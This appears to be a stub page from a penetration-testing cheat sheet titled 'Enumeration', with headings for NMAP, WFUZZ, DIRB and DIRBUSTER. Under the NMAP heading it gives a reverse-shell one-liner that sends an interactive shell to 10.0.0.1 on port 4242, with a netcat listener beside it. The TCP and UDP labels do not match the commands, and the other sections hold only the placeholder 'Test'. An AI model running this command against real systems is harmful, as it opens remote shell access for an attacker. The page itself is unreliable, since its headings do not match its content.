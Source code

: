 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [DIRB](#DIRB)
* [DIRBUSTER](#DIRBUSTER)

 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
Test
Test
Test
Test
Test
Test
Test
Test
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
